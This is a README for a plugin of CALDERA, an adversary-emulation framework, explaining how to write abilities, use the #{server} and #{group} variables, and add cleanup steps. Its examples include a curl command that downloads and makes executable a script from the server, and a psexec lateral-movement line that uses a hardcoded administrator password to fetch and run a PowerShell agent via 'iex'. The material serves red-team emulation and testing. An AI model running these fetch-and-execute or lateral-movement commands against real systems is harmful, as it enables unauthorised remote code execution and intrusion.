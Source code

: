 # CALDERA plugin: Open

This plugin contains:

* Open-source abilities and adversaries
* A filestore
* A basic planner (sequential) which runs all abilities on all hosts in a group

You can quickly add your own abilities and adversaries, both of which are reloaded every time
the core server reboots.

## Adding new abilities

Add a .yml file in the abilities directory, named after a unique ID (UUID-4 is our standard). 
This file should include an ID, name, description, ATT&CK tactic and command.

Below is an example ability:
```
- id: c0da588f-79f0-4263-8998-7496b1a40596
  name: Identify active user
  description: Platform agnostic way to find the active user
  tactic: discovery
  command: |
    whoami
```

### Variables

As you write commands, note that there are two global variables available, server and group.

A variable is referenced with the syntax #{variable} and can be placed anywhere inside a command. 

* Server/#{server}: The location of CALDERA. Because each agent may have a different reference point
for where CALDERA is (IP, FQDN, etc), if an ability wants to reference CALDERA it should use #{server}. 
* Group/#{group}: The group used in the active operation.

An example of an ability using a variable is shown below. 
```
- id: e9bcdf0d-be08-4aec-bf1e-e73655403d55
  name: Download WIFI tools
  description: Download a set of commands for manipulating WIFI
  tactic: discovery
  technique:
    attack_id: T1016
    name: System Network Configuration Discovery
  command: |
    curl -sk -X POST -H 'file:wifi.sh' #{server}/file/download > /tmp/wifi.sh &&
    chmod +x /tmp/wifi.sh
  cleanup:
    rm /tmp/wifi.sh
```

The example above also demonstrates how any ability can download files from CALDERA. Downloadable files
should live in the filestore directory, of any plugin, then any ability can download them by calling
the /file/download REST endpoint with the filename passed in as a header. 

The group variable is a bit more advanced. This is useful primarily for lateral movement abilities where
the agent may move itself to a new host. A snippet of what this may look like (for PSExec) would be
```
psexec \\127.0.0.1 -u administrator -p password123 Powershell.exe iex (irm -Method Post -Headers @{'file'='54ndc47.ps1'}  #{server}/file/render?group=#{group})
```

Consult the 54ndc47 agent's delivery commands to see the various ways to deploy by specifying (or not specifying) 
a group.

### Cleanup

Abilities can include a cleanup block, which will execute automatically at the end of an operation. The
cleanup should be used in instances you want to reverse a mutable action, such as stopping a started process. An
example ability with cleanup is shown in the previous example.

## Adding new adversaries

New adversaries can be added to the adversaries.yml file.


